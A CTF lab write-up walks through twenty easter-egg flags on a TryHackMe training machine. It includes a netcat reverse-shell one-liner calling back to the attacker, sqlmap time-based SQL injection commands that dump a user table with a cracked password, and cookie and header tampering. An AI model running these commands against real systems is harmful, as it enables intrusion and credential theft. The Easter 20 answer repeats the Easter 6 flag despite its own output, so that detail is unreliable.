

## Challenge Name: THM_CTF_VOL


Challenge Description:
Find easter egg!

Artifact Files:


### Approach
## Recon
Using `rustscan`  to scan port on target machine. Those open ports are 22,80.


I use ` dirsearch <IP>' to find hidden url of the website have path /buttons, /robots.txt, /login,/static

 and ww see the version of that app using expoit in link below

[exploit_link](https://www.exploit-db.com/exploits/50477)

Acces the webshell and using reverse shell escalation using this `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 1234 >/tmp/f` to the web shell

** Easter 1 **

Hint: robots.txt

We have a base64 strings in that robots.txt and follow a buch of hex so we covert first base64 strings to hex format and add up those  follow hex in the robots.txt. Last step convert it to base64 and to text to get the fisrt flag.

Flag is `THM{4u70b07_r0ll_0u7}`

** Easter 2 **

Hint:Decode base64 multiple time

We decode first base64 in robots.txt multiple time and exactly attempts is 1 base64 -> 2 base64 (remove last 2 hex it is '==' in url encode but we can remove it it dont effect the result) -> 3 base64 ( truncate the whitespace) -> 4 base64 (like step 3) -> DesKel_secret_base , and we got the path to the flag ent the paht  <IP>/DesKel_secret_base and inspect the img and we will have the flag.


Flag is ` THM{f4ll3n_b453}`

** Easter 3 **

Hint: Using dirb commonn.txt file
Using 'dirsearch -u <IP> -w /usr/share/dirb/wordlists/common.txt' and we have

inspect the login html and we get a flag

Flag is `THM{y0u_c4n'7_533_m3}`

** Easter 4 **

Hint:sqli time base

Using this cmd `sqlmap -u "http://10.10.13.95/login" \
  --data="username=DesKel&password=anything" \
  -p username --batch --technique=BEUST --time-sec=6 --threads=6 --dbs
` to list databse
```bash
[11:14:04] [INFO] retrieved: 18
[11:14:33] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[11:14:33] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.13.95'

```
we found the THM_f0und_m3 db so we use next `sqlmap -u "http://10.10.13.95/login" \
  --data="username=DesKel&password=anything" \
  -p username --batch --technique=BEUST --time-sec=6 \
  -D THM_f0und_m3 --tables
` to find tables of the db
```bash
[11:28:50] [INFO] retrieved: nothing_inside
[11:29:57] [INFO] retrieved: user
Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+

[11:30:17] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.13.95'
```
we found collum of that table we use `sqlmap -u "http://10.10.13.95/login" \
  --data="username=DesKel&password=anything" \
  -p username --batch --technique=BEUST --time-sec=6 --threads=6 \
  -D THM_f0und_m3 -T user --columns
` to extract content from that table
```bash
[11:45:38] [INFO] retrieved: password
[11:45:38] [INFO] retrieving the length of query output
[11:45:38] [INFO] retrieved: 11
[11:46:00] [INFO] retrieved: varchar(40)
Database: THM_f0und_m3
Table: user
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| password | varchar(40) |
| username | varchar(30) |
+----------+-------------+

[11:46:00] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.13.95'
```

use `qlmap -u "http://10.10.13.95/login" \
  --data="username=DesKel&password=anything" \
  -p username \
  --batch --technique=BEUST --time-sec=6 --threads=6 \
  -D THM_f0und_m3 -T nothing_inside --dump
` to get flag from table nothing here
```bash
[12:08:27] [INFO] retrieving the length of query output
[12:08:27] [INFO] retrieved: 23
[12:09:09] [INFO] retrieved: THM{1nj3c7_l1k3_4_b055}
Database: THM_f0und_m3
Table: nothing_inside
[1 entry]
+-------------------------+
| Easter_4                |
+-------------------------+
| THM{1nj3c7_l1k3_4_b055} |
+-------------------------+

```

Flag is `THM{1nj3c7_l1k3_4_b055}`

** Easter 5 **

so we have structure of `user` table run this `sqlmap -u "http://10.10.13.95/login" \
  --data="username=DesKel&password=anything" \
  -p username \
  --batch --technique=BEUST --time-sec=6 --threads=6 \
  -D THM_f0und_m3 -T user --dump
` to dump all content from that table.
```bash
Database: THM_f0und_m3
Table: user
[2 entries]
+------------------------------------------+----------+
| password                                 | username |
+------------------------------------------+----------+
| 05f3672ba34409136aa71b8d00070d1b (cutie) | DesKel   |
| He is a nice guy, say hello for me       | Skidy    |
+------------------------------------------+----------+
```
Use this credential to acces login and get the flag

Flag is: THM{wh47_d1d_17_c057_70_cr4ck_7h3_5ql}

** Easter 6 **
Hint : Look out for the response header.
Use this `curl -s -D - -o /dev/null "http://10.10.13.95/` get the header reponse \
```bash
HTTP/1.1 200 OK
Date: Tue, 14 Oct 2025 16:17:25 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Busted: Hey, you found me, take this Easter 6: THM{l37'5_p4r7y_h4rd}
Set-Cookie: Invited=0
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html

```

Flag is : `THM{l37'5_p4r7y_h4rd}`

** Easter 7 **


Adjust cookie value to 1 to get the flag in mainpage


Flag is: `THM{w3lc0m3!_4nd_w3lc0m3}`

** Easter 8 **


We adjust user agent to `Mozilla/5.0 (iPhone; CPU iPhone OS 13_1_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.1 Mobile/15E148 Safari/604.1` in burpsuit to get the flag


Flag is: `THM{h3y_r1ch3r_wh3r3_15_my_k1dn3y}`

** Easter 9 **

We lick in the mainpage and only rederect is the link in the red button and so that we use `curl -L  http://10.10.80.120/ready` and get a flag
```bash
url -L  http://10.10.80.120/ready
<html>
        <head>
                <title>You just press it</title>
                <meta http-equiv="refresh" content="3;url=http:gone.php" />
                <p style="text-align:center"></p>
                <!-- Too fast, too good, you can't catch me. I'm sanic Easter 9: THM{60nn4_60_f457} -->
        </head>

</html>

```
Flag is: `THM{60nn4_60_f457}`

** Easter 10 **
Use `curl -i -H    "Referer: tryhackme.com" http://10.10.80.120/free_sub/` and get a flag.
```bash
curl -i -H    "Referer: tryhackme.com" http://10.10.80.120/free_sub/
HTTP/1.1 200 OK
Date: Wed, 15 Oct 2025 16:02:33 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Vary: Accept-Encoding
Content-Length: 118
Content-Type: text/html

Nah, there are no voucher here, I'm too poor to buy a new one XD. But i got an egg for you. Easter 10: THM{50rry_dud3}
```

Flag is : `THM{50rry_dud3}`

** Easter 11 **
We change value of the food to egg to get flag


Flag is : `THM{366y_b4k3y}`

** Easter 12 **
Go to network in dev and acces js file
```bash
function ahem()
 {
	str1 = '4561737465722031322069732054484d7b68316464336e5f6a355f66316c337d'
	var hex  = str1.toString();
	var str = '';
	for (var n = 0; n < hex.length; n += 2) {
		str += String.fromCharCode(parseInt(hex.substr(n, 2), 16));
	}
	return str;
 }

````
Decode the str1 and get the flag

Flag is :  `THM{h1dd3n_j5_f1l3}`

** Easter 13 **

Go to main page and click button and we get the flag

Flag is `THM{1_c4n'7_b3l13v3_17}`

** Easter 14 **

We have the flag 14 in html in mainpage it encode png to base64 reverse it and we have img


Flag is : `THM{d1r3c7_3mb3d}`

** Easter 15 **


Send string of all aphabet `ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz
` and compare to the gint and we get 'GameOver' send it to form and get a flag.

Flag is: `THM{ju57_4_64m3}`

** Easter 16 **

Using this `curl -X POST http://10.10.80.120/game2/ \
     -d "button1=button1" \
     -d "button2=button2" \
     -d "button3=button3" \
     -d "submit=submit"
` to  press all button

```bash
curl -X POST http://10.10.80.120/game2/ \
     -d "button1=button1" \
     -d "button2=button2" \
     -d "button3=button3" \
     -d "submit=submit"

<html>
        <head>
                <title>Game 2</title>
                <h1>Press the button simultaneously</h1>
        </head>
        <body>

        <form method="POST">
                <input type="hidden" name="button1" value="button1">
                <button name="submit" value="submit">Button 1</button>
        </form>

        <form method="POST">
                <input type="hidden" name="button2" value="button2">
                <button name="submit" value="submit">Button 2</button>
        </form>

        <form method="POST">
                <input type="hidden" name="button3" value="button3">
                <button name="submit" value="submit">Button 3</button>
        </form>
        Just temper the code and you are good to go. Easter 16: THM{73mp3r_7h3_h7ml}    </body>
</html>
```

Flag is : THM{73mp3r_7h3_h7ml}

** Easter 17 **
Decode the binary in main html page

'100010101100001011100110111010001100101011100100010000000110001001101110011101000100000010101000100100001001101011110110110101000110101010111110110101000110101010111110110101100110011011100000101111101100100001100110110001100110000011001000011001101111101"`


Flag is: `THM{j5_j5_k3p_d3c0d3}`


** Easter 18 **


Using
```bash
curl -H "egg: Yes "  http://10.10.80.120  > out1.txt
cat out1.txt | grep THM
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 94407    0 94407    0     0  44278      0 --:--:--  0:00:02 --:--:-- 44280
        That's it, you just need to say YESSSSSSSSSS. Easter 18: THM{70ny_r0ll_7h3_366} 
```
Flag is : `THM{70ny_r0ll_7h3_366}`

** Easter 19 **

Base on `Easter 3` we saw a small img and have a flag covert it we have the flag `THM{700_5m4ll_3yy}`


** Easter 20 **


Using
```bash
curl -i -X POST http://10.10.80.120/   --data "username=DesKel&password=heIsDumb" | grep THM

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0Busted: Hey, you found me, take this Easter 6: THM{l37'5_p4r7y_h4rd}
100 94412    0 94379  100    33  47709     16  0:00:02  0:00:01  0:00:01 47706
        Okay, you pass, Easter 20: THM{17_w45_m3_4ll_4l0n6}     <br><br><br>
```

Flag is : `THM{l37'5_p4r7y_h4rd}`
